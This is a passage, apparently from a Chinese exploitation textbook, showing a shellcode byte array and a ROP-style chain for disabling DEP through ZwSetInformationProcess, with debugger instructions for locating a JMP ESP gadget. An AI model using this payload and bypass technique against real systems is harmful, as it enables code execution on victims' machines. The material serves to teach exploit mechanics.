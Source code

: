 ```c++

charshellcode[]= 
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
"……" 
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90" 
"\x52\xE2\x92\x7C" //MOV EAX,1 RETN 地址 
"\x85\x8B\x1D\x5D" //修正 EBP 
"\x19\x4A\x97\x7C" //增大 ESP 
"\x90\x90\x90\x90" //jmp esp
"\x24\xCD\x93\x7C" //关闭 DEP 代码的起始位置 ;
```

我们依然在 0x7C93CD6F 处中断程序，注意千万不要在程序刚加载完就在 0x7C93CD6F 下 断点，不然您会被中断到崩溃。我们建议您先在 0x7C95683B 处，即 CALL ZwSetInformationProcess 时下断点，然后单步运行到 0x7C93CD6F，堆栈情况如图 12.3.11 所示。

<img src="images/09/增大ESP后关闭dep返回时堆栈状态.png">


可以看到，增大 ESP 之后我们的关键数据都没有被破坏。执行完 RETN 0x04 后 ESP 将指 向 0x0012FEC4，所以我们只要在 0x0012FEBC 放置一条 JMP ESP 指令就可让程序转入堆栈执 行指令了。大家可以通过 OllyFindAddr 插件中的 Overflow return address→Find CALL/JMP ESP 来搜索符合要求的指令，部分搜索结果如图 12.3.12 所示。 
